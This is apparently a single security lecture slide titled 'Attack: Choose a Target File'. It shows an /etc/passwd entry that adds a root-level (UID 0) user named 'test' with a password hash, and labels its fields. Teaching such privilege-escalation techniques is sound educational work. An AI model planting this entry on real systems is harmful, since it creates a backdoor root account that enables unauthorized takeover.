

Attack: Choose a Target File
Add the following line to /etc/passwd to add a new user
                    test:U6aMy0wojraho:0:0:test:/root:/bin/bash

 Username
         UID (0 means root)
Hash value for empty password